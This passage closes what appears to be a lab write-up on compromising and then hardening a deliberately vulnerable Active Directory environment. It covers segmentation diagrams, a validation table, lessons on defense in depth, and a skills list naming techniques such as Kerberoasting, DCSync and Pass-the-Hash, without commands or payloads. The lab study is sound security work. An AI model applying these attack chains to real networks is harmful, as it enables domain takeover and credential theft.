svc_web
  |
  +---- weak password
  |
  +---- replication permissions
             |
             v
           DCSync
```

### After

```text
External Zone
     |
  Firewall
     |
     v
    DMZ
[Web Server]
     |
restricted flows
     |
  Firewall
     |
     v
Internal Services
     |
restricted flows
     |
     v
Identity / DC Zone
```

### Control-by-control validation approach

| Attack path / weakness | Defensive work or control | What was evaluated in the original before/after phase |
| --- | --- | --- |
| External web server reaching internal AD systems | Segmentation and firewall restrictions | Network reachability and exposure of sensitive internal services |
| `www-data` escalating through `sudo find` | Restriction of excessive `sudo` authorization | Whether the original privilege-escalation path remained available |
| Weak service-account credentials | Service-account hardening strategy | Exposure of the account to the demonstrated offline-guessing path |
| Service account holding replication rights | Active Directory privilege hardening | Whether replication privileges still created a DCSync path |
| Administrative access from the compromised host | Firewall and administrative-access restrictions | Exposure of administrative protocols and ability to reach sensitive services |
| Weak centralized configuration | GPO security hardening | Application of domain security policies and related restrictions |

**Evidence limitation:** The implementation and testing were completed at the time, but specific retained command outputs are available mainly for the offensive phase. The table does **not** claim that every listed scenario was retested with a particular tool or that an undocumented outcome was observed. Those details would require the original test notes or infrastructure.

The intended result of the defensive design was to introduce **multiple independent barriers**. Even if the web server were compromised:

- root access should not be immediate;
- the server should not have unrestricted internal connectivity;
- service accounts should not expose reusable high-value credentials;
- service accounts should not possess replication rights;
- the Domain Controller should not accept arbitrary administrative traffic from the web zone.

---

## 11. Lessons Learned

The most important lesson from this lab is that complete domain compromise often does not require a single catastrophic vulnerability. Attackers can chain several weaknesses:

```text
Application vulnerability
       +
Privilege misconfiguration
       +
Poor network segmentation
       +
Weak service-account password
       +
Excessive AD permissions
       =
Domain compromise
```

The defensive phase reinforced the importance of **defense in depth**: each control should assume that another control may eventually fail. Network isolation cannot replace sound identity security; credential hardening alone cannot compensate for excessive replication permissions; and GPO hardening does not eliminate the need for monitoring and validation.

The project also reinforced the value of **testing controls after implementing them**, rather than treating a configuration change as proof that the underlying risk has been eliminated.

---

## 12. Skills Demonstrated

This project combines offensive and defensive security skills. The items below distinguish hands-on work from additional design and monitoring considerations.

### Infrastructure & Systems

- Windows Server 2022
- Active Directory Domain Services
- DNS
- Linux administration
- Windows/Linux networking
- domain-joined Linux systems

### Offensive Security — Hands-on attack chain

- web command injection
- reverse shells
- Linux privilege escalation
- network pivoting / use of a compromised dual-homed host
- Kerberos abuse
- Kerberoasting
- Hashcat
- DCSync
- Pass-the-Hash
- Impacket
- PsExec

### Defensive Security — Implementation & analysis

- network segmentation
- DMZ and zone-design principles
- firewall policy configuration and review
- least privilege
- Active Directory ACL and privilege review
- service-account hardening
- GPO hardening
- identity-security principles
- attack-path analysis
- before/after security validation
- logging and detection strategy (identified opportunities; not all detections were deployed)

---

## 13. Conclusion

This lab reproduced a realistic multi-stage attack path against a deliberately vulnerable Active Directory environment. The attack began with an exposed web application and progressed through Linux privilege escalation, use of a dual-homed host to access the internal network, Kerberos abuse, credential recovery, DCSync and Pass-the-Hash until the Domain Controller was reached with `NT AUTHORITY\SYSTEM` privileges.

The second phase involved **real hardening work and before/after testing**: network segmentation, firewall configuration, GPO configuration and measures addressing the privilege weaknesses revealed by the attack. Although the post-hardening virtual machines and validation screenshots were not preserved, the work was carried out in the original laboratory.

The project demonstrates why security cannot rely solely on preventing the initial exploit. A resilient architecture must limit the impact of compromise through:

- segmentation;
- firewalling;
- least privilege;
- strong service-account management;
- Active Directory hardening;
- centralized policies;
- monitoring and detection;
- validation of defensive controls.

It therefore provides both an **offensive understanding of Active Directory attack paths** and a **defensive understanding of how to reduce and detect them**, with explicit documentation of the evidence that remains available.
